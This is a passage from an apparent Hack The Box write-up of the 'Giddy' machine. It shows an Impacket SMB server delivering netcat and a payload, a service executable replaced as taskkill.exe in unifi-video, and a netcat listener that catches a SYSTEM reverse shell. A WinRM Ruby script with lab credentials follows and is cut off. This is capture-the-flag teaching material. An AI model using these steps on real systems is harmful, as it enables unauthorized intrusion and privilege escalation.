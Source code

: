 To upload the .exe and netcat to the box, we can spawn an SMB server with Impacket:

```
root@darkisland:~/giddy# python /usr/share/doc/python-impacket/examples/smbserver.py test .
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

![](/assets/images/htb-writeup-giddy/remote5.png)

Then we copy the file to taskkill.exe as explained in the exploit description, then stop-start the service.

![](/assets/images/htb-writeup-giddy/remote6.png)

```
root@darkisland:~/hackthebox/Machines/Giddy# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.104] 49805
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\ProgramData\unifi-video>whoami
whoami
nt authority\system

C:\ProgramData\unifi-video>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
CF559C<redacted>
C:\ProgramData\unifi-video>
```

### Alternate shell method

Instead of using the Web Powershell interface, we can also log in with WinRM. To do that under Linux, I used [Alamot's](https://github.com/Alamot/code-snippets/tree/master/winrm) WinRM ruby script:

```ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new( 
  endpoint: 'http://10.10.10.104:5985/wsman',
  #transport: :ssl,
  user: 'stacy',
  password: 'xNnWo6272k7x',
  #:client_cert => 'certnew.cer',
  #:client_key => 'privateKey.key',
  #:no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
```